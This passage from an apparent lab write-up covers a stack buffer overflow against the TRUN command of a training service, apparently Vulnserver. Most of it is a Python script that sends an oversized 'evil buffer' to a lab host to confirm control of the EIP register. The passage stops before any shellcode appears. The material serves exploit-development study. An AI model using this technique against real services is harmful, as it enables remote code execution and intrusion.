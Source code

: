 Let us confirm that we have control over the EIP:

```python
#!/usr/bin/env python3
# TRUN - Step 3 - control eip
import socket

offset = 2005
size = 4096
target_ip = "10.0.2.74"
target_port = 9999
line_ending = b"\n"

buf = b""
buf += b"TRUN /."
buf += b"A" * offset
buf += b"B" * 4
buf += b"C" * 4
buf += b"D" * (size - offset - 8)
buf += line_ending

# expected result:
# EIP content on crash: 42424242
# b'B' = 0x42

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# receive banner
banner = s.recv(1024)
print(banner)

# send evil buffer
print(f"Sending evil buffer with {len(buf)} bytes and payload length {size}...")
s.send(buf)

# receive response
a = s.recv(1024)
print(a)

s.close()
print("Done!")
```

That appears to have worked. We have control over the EIP:
